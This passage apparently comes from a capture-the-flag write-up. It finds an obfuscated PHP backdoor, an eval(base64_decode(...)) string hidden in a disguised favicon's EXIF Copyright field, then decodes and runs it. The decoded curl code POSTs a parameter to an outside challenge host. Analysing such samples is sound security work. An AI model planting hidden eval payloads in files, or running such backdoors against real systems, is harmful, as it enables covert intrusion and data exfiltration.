 We proceed to run the `exiftool` command on it and we discover a Base64 encoded text.

```sh
>> exiftool favicon.ico 
ExifTool Version Number         : 12.16
File Name                       : favicon.ico
Directory                       : .
File Size                       : 12 KiB
File Modification Date/Time     : 2021:11:07 22:41:37-05:00
File Access Date/Time           : 2021:11:07 22:42:41-05:00
File Inode Change Date/Time     : 2021:11:07 22:42:21-05:00
File Permissions                : rwxrw-rw-
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : inches
X Resolution                    : 72
Y Resolution                    : 72
Exif Byte Order                 : Big-endian (Motorola, MM)
Orientation                     : Horizontal (normal)
Copyright                       : eval(base64_decode('JGNoPWN1cmxfaW5pdCgpO2N1cmxfc2V0b3B0KCRjaCxDVVJMT1BUX1VSTCwiaHR0cDovL3MwcHE2c2xmYXVud2J0bXlzZzYyeXptb2RkYXc3cHBqLmN0Zi5zZzoxODkyNi94Y3Zsb3N4Z2J0ZmNvZm92eXdieGRhd3JlZ2pienF0YS5waHAiKTtjdXJsX3NldG9wdCgkY2gsQ1VSTE9QVF9QT1NULDEpO2N1cmxfc2V0b3B0KCRjaCxDVVJMT1BUX1BPU1RGSUVMRFMsIjE0YzRiMDZiODI0ZWM1OTMyMzkzNjI1MTdmNTM4YjI5PUhpJTIwZnJvbSUyMHNjYWRhIik7JHNlcnZlcl9vdXRwdXQ9Y3VybF9leGVjKCRjaCk7'));
Profile CMM Type                : 
Profile Version                 : 2.1.0
Profile Class                   : Display Device Profile
Color Space Data                : RGB
Profile Connection Space        : XYZ
```

We do a Base64 decode on it and realise that is making a POST request to another server. The post parameter is `username` in md5.

```sh
>> echo "JGNoPWN1cmxfaW5pdCgpO2N1cmxfc2V0b3B0KCRjaCxDVVJMT1BUX1VSTCwiaHR0cDovL3MwcHE2c2xmYXVud2J0bXlzZzYyeXptb2RkYXc3cHBqLmN0Zi5zZzoxODkyNi94Y3Zsb3N4Z2J0ZmNvZm92eXdieGRhd3JlZ2pienF0YS5waHAiKTtjdXJsX3NldG9wdCgkY2gsQ1VSTE9QVF9QT1NULDEpO2N1cmxfc2V0b3B0KCRjaCxDVVJMT1BUX1BPU1RGSUVMRFMsIjE0YzRiMDZiODI0ZWM1OTMyMzkzNjI1MTdmNTM4YjI5PUhpJTIwZnJvbSUyMHNjYWRhIik7JHNlcnZlcl9vdXRwdXQ9Y3VybF9leGVjKCRjaCk7" | base64 -d

$ch=curl_init();
curl_setopt($ch,CURLOPT_URL,"http://s0pq6slfaunwbtmysg62yzmoddaw7ppj.ctf.sg:18926/xcvlosxgbtfcofovywbxdawregjbzqta.php");
curl_setopt($ch,CURLOPT_POST,1);
curl_setopt($ch,CURLOPT_POSTFIELDS,"14c4b06b824ec593239362517f538b29=Hi%20from%20scada");
$server_output=curl_exec($ch);  
```

Running the code generates a html page.

```sh
>> php curl_backdoor.php 
New record created successfully in data/767ac56c029aaa9d0301ccd732773dc5.html  
```

